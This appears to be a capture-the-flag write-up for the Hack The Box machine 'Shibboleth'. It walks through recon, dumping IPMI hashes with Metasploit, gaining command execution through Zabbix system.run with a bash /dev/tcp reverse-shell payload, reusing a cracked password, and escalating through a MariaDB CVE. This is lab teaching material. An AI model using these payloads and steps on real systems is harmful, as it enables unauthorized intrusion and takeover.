


# Shibboleth

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Sun Nov 14 14:15:32 2021 as: nmap -vvv -p 80 -sCV -oA init 10.129.231.204
Nmap scan report for 10.129.231.204
Host is up, received syn-ack (0.32s latency).
Scanned at 2021-11-14 14:15:39 +07 for 15s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.41
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 14 14:15:54 2021 -- 1 IP address (1 host up) scanned in 22.44 seconds
```

Going to the IP just redirects us to `shibboleth.htb` so we add that to `/etc/hosts`. We can then fuzz for virtual hosting.

```sh
$ ffuf -u 'http://shibboleth.htb/' -H "Host: FUZZ.shibboleth.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fc 302

monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 298ms]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 299ms]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 311ms]
```

We have 3 subdomains we can add to `/etc/hosts`. Visiting the 3, however, just give us the same page for logging into Zabbix. Trying to log in without valid credentials just give us the same generic message regardless of whether or not the username is valid so we can't enumerate usernames.

Exploring `http://shibboleth.htb/`, it seems to be the sample [FlexStart](https://bootstrapmade.com/flexstart-bootstrap-startup-template/) page. We have a blog post at `/blog-single.html` where we can find multiple user names which we might be able to use later. Also, on the home page, we find that we have a seemingly working contact form. However, in trying to send a message, while a request is made to `/forms/contact.php`, we just get a response of `Unable to load the "PHP Email Form" Library!`.

I then ran `gobuster`.

```sh
$ gobuster dir -u 'http://shibboleth.htb/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html -r
/blog.html            (Status: 200) [Size: 19196]
/assets               (Status: 200) [Size: 1499]
/index.html           (Status: 200) [Size: 59474]
/forms                (Status: 200) [Size: 1142]
/server-status        (Status: 403) [Size: 279]
```

```sh
$ gobuster dir -u 'http://zabbix.shibboleth.htb/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -r
/modules              (Status: 403) [Size: 286]
/image.php            (Status: 200) [Size: 1828]
/history.php          (Status: 200) [Size: 1830]
/map.php              (Status: 200) [Size: 1826]
/overview.php         (Status: 200) [Size: 1831]
/assets               (Status: 403) [Size: 286]
/services.php         (Status: 200) [Size: 1831]
/templates.php        (Status: 200) [Size: 1832]
/audio                (Status: 403) [Size: 286]
/index.php            (Status: 200) [Size: 3686]
/local                (Status: 403) [Size: 286]
/applications.php     (Status: 200) [Size: 1835]
/app                  (Status: 403) [Size: 286]
/js                   (Status: 403) [Size: 286]
/include              (Status: 403) [Size: 286]
/items.php            (Status: 200) [Size: 1828]
/conf                 (Status: 403) [Size: 286]
/screens.php          (Status: 200) [Size: 1830]
/vendor               (Status: 403) [Size: 286]
/slides.php           (Status: 200) [Size: 1829]
/setup.php            (Status: 200) [Size: 1828]
/fonts                (Status: 403) [Size: 286]
/graphs.php           (Status: 200) [Size: 1829]
/maintenance.php      (Status: 200) [Size: 1834]
/chart.php            (Status: 200) [Size: 1828]
/hosts.php            (Status: 200) [Size: 1828]
/locale               (Status: 403) [Size: 286]
/queue.php            (Status: 200) [Size: 1828]
/zabbix.php           (Status: 200) [Size: 1538]
/chart2.php           (Status: 200) [Size: 1829]
/triggers.php         (Status: 200) [Size: 1831]
/chart3.php           (Status: 200) [Size: 1829]
/server-status        (Status: 403) [Size: 286]
/chart4.php           (Status: 200) [Size: 962]
```

Looking at the Zabbix login page, the "Help" button points to [version 5.0](https://www.zabbix.com/documentation/5.0/) so we know the version of Zabbix we're working with. I tried looking for an exploit with `searchsploit` and in metasploit but found no usable exploit.

I then did a UDP scan of the target.

```
# Nmap 7.92 scan initiated Mon Nov 15 12:54:37 2021 as: nmap -sUCV -oA udp -vvv shibboleth.htb
Increasing send delay for 10.129.231.204 from 100 to 200 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 10.129.231.204 from 200 to 400 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.129.231.204 from 400 to 800 due to 11 out of 21 dropped probes since last increase.
Nmap scan report for shibboleth.htb (10.129.231.204)
Host is up, received reset ttl 63 (0.46s latency).
Scanned at 2021-11-15 12:54:38 +07 for 1070s
Not shown: 993 closed udp ports (port-unreach)
PORT      STATE         SERVICE  REASON              VERSION
623/udp   open          asf-rmcp udp-response ttl 63
1057/udp  open|filtered startron no-response
16503/udp open|filtered unknown  no-response
22739/udp open|filtered unknown  no-response
23679/udp open|filtered unknown  no-response
44101/udp open|filtered unknown  no-response
61481/udp open|filtered unknown  no-response
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port623-UDP:V=7.92%I=7%D=11/15%Time=6191FA06%P=x86_64-pc-linux-gnu%r(ip
SF:mi-rmcp,1E,"\x06\0\xff\x07\0\0\0\0\0\0\0\0\0\x10\x81\x1cc\x20\x008\0\x0
SF:1\x97\x04\x03\0\0\0\0\t");

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 15 13:12:28 2021 -- 1 IP address (1 host up) scanned in 1070.78 seconds
```

We have port 623 - [IPMI](https://book.hacktricks.xyz/pentesting/623-udp-ipmi). Using metasploit and its `auxiliary/scanner/ipmi/ipmi_dumphashes` module, we can dump the hash for `Administrator`.

```
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.231.204
rhosts => 10.129.231.204

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.231.204:623 - IPMI - Hash found: Administrator:94054d7a020600003a0810d9099ddf75380d4f8589fed5a31b714c8cb2fbf7725a16d57c7748b07ea123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:67ae7415d7385611c4c3ef582b6d910873f43fe4
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Cracking the hash gives us the password `ilovepumkinpie1`. With that, we can log in to `http://zabbix.shibboleth.htb/` as Administrator.

We can create an item to execute arbitrary code. First, go to "Configurations" and then "Hosts". In that page, click on "Items".



After that, click on "Create item".



When creating the item, set the "Key" to be `system.run[cmd]`, replacing `cmd` with the command to be run. After the initial creation, we can edit the item and execute code by clicking "Test" to run on click. I used the following payload to get a reverse shell (`setsid` to negate the timeout that would kill the shell after a few seconds).

```
system.run[setsid bash -c 'exec bash -i &>/dev/tcp/LHOST/LPORT <&1']
```

We should then have a reverse shell as `zabbix`. The only non-root user with a shell is `ipmi-svc` so we target that account. We can easily `su ipmi-svc` using the previous password `ilovepumkinpie1`.

Checking our privileges as `ipmi-svc`...

```sh
ipmi-svc@shibboleth:/tmp$ sudo -l
[sudo] password for ipmi-svc:
Sorry, user ipmi-svc may not run sudo on shibboleth.
```

We can't use `sudo`. Looking in `/etc/zabbix`, we have `zabbix_server.conf` which contains credentials for the user `zabbix` in `mysql`, so we can log into `mysql`. Checking `ps aux`, we see that `mysqld` is being run as `root`.

```sh
ipmi-svc@shibboleth:~$ ps aux | grep mysql
root        1435  0.7  3.7 1729672 151676 ?      Sl   Nov14   9:15 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
[snip]
```

Looking at the mysql version ...

```sh
ipmi-svc@shibboleth:~$ mysql -V
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
ipmi-svc@shibboleth:~$ mysqld -V
mysqld  Ver 10.3.25-MariaDB-0ubuntu0.20.04.1 for debian-linux-gnu on x86_64 (Ubuntu 20.04)
```

We see that we're working with MariaDB 10.3.25. We can search for Mariadb vulns.

```sh
$ searchsploit mariadb
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
MariaDB 10.2 - 'wsrep_provider' OS Command Execution                                 | linux/local/49765.txt
```

This exploit of CVE-2021-27928 should work according to its descriptions. Following the exploit, I created the payload, uploaded it to the machine, and got a root shell.
